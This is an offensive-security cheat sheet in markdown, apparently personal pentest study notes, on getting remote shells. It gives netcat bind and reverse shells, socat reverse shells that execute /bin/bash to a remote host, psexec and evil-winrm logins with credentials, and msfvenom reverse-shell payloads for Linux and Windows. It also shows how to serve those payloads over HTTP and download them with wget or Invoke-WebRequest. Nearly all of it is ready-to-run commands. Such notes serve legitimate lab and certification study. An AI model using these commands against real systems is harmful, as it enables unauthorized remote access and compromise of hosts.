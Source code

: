 # Linux Shell Breakout 
* spawn a /bin/bash using Python
* https://docs.python.org/3/library/pty.html

```bash
python -c 'import pty;pty.spawn("/bin/bash")';
export TERM=xterm-256color
alias ll='clear ; ls -lasht --color=auto'
# CRTL + Z [backgroud process]
stty raw -echo; fg ; reset
stty column 200 rows 200
```

# Linux Shells

* Connect to a TCP/UDP port with Netcat
* Listen on a TCP/UDP port with Netcat
* Gain Remote Access to a host with Netcat
* Execute a Netcat bind shell
* Execute a Netcat reverse shell
* Netcat vs. Socat
* Socat reverse shells
* SSH shells


## Connect to a TCP/UDP port with Netcat
* -n don't do DNS resolution
* -v verbose

`nc -nv 10.11.0.22 110`

## Listen on a TCP/UDP port with Netcat
* -l start listener
* -p port

`nc -nlvp 4444`

## Execute a Netcat bind shell
* server bind a command shell on a specific port
* -e provide stdin, stout and stderr of a shell

`nc -nlvp 4444 -e cmd.exe`

## Execute a Netcat reverse shell
* client send a command shell to a **host listening on a port**.

```bash
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
```

## Netcat vs. Socat
* https://nc110.sourceforge.io/
* http://www.dest-unreach.org/socat/doc/socat.html
* -d verbosity
* **socat connect requires a '-' as first address**, 

```bash
echo "Socat Connect"
nc <remote> 80
socat - TCP4:<remote>:80
```

```bash
echo "Socat Listener"
sudo nc -lvp localhost 443
sudo socat TCP4-LISTEN:443 STDOUT
```

```bash
echo "Reverse Shell"
nc -nlvp 4444
nc -nv host 4444 -e /bin/bash
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

## SSH shells
* -p remote port
* -o stricthostkeychecking=no **avoid this option in real world**
* Online Wargame for beginners https://overthewire.org/wargames/bandit/
* Use the config which is read ~/.ssh/config before /etc/ssh/ssh_config
* https://linuxize.com/post/using-the-ssh-config-file/

ssh kali@localhost -p 22
ssh -o stricthostkeychecking=no webadmin@192.168.0.2 -p 2220

```bash
kali@kali:~/.ssh$ cat config
Host webadmin
        HostName webadmin@192.168.0.2
        User webadmin
        Port 22

kali@kali:~/.ssh$ ssh webadmin
```

# Windows Shells
* Remote shells with PowerShell
* Remote shells with psexec
* Remote shells with evil-winrm
* Remote shells with rdesktop

## Remote shells with PowerShell
* run powerShell as admin
* enable Enable-PSRemoting
* add IP to trustedhosts using wsman
* invoke a remote command or a remote shell
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_wsman_provider?view=powershell-7.2#setting-the-value-of-items-in-the--wsman-drive
* https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works

```powershell
Enable-PSRemoting
Set-Item wsman:\localhost\client\trustedhosts $IP
```

```powershell
Invoke-Command -ComputerName $IP -Credential $USER -ScriptBlock { systeminfo } 
Enter-PSSession -ComputerName $IP -Credential $USER
```

### Setup the local computer with a listener for any IP on HTTP
* Set-WSManQuickConfig: Configures the local computer for remote management. It starts a service opens the firewall.
* https://learn.microsoft.com/en-us/powershell/module/microsoft.wsman.management/about/about_ws-management_cmdlets?view=powershell-7.2

```powershell
Set-WSManQuickConfig
Test-WSMan 
```

## Remote shells with psexec
* download PSExec
* extract it to System32
* create a psexec interactive session -i
* https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PSTools.zip"
Expand-Archive -Path .\PSTools.zip -DestinationPath C:\Windows\System32\
$RHOST="target IP"
psexec -accepteula
psexec "\\$ROST" -u user -p password -i cmd
psexec "\\$ROST" -u user -p password -i powershell
```

Remote shells with evil-winrm
* https://github.com/Hackplayers/evil-winrm
* -P, --port PORT                  default 5985
* -H, --hash HASH                  NTHash
* -s, --scripts PS_SCRIPTS_PATH    Powershell scripts local path
* -e, --executables EXES_PATH      C# executables local path
* --spn SPN_PREFIX                 SPN prefix for Kerberos auth (default HTTP)


```bash
./evil-winrm.rb -i IP -u user -p password
```

## Remote shell with rdesktop
* Connect remote desktop from linux

```bash
rdesktop -u user -p password $RHOST
```

# Custom Shell using MSFvenom
* https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom
* https://www.offsec.com/metasploit-unleashed/msfvenom/
* staged payloads require Metasploit framework 
* let's use stageless payload instead
* -p use payload
* -f use format
* -a use arch
* -o output
* https://github.com/rsmudge/metasploit-loader/blob/master/src/main.c


```bash
msfvenom -h
msfvenom --list payloads
msfvenom -l platforms
msfvenom -l formats
msfvenom --platform linux -l payloads | grep x86
msfvenom --platform windows -l payloads | grep x64
```

```bash
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f elf -o reverse_shell.elf
msfvenom -p linux/x86/windows/shell_reverse_tcp --list-options
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o reverse_shell.exe
```

## Download Shell
```bash
sudo python -m http.server 80
```
```bash
$ wget wget http://IP/reverse_shell.elf
```
```powershell
PS> Invoke-WebRequest -Uri http://IP/reverse_shell.exe -OutFile reverse_shell.exe
```

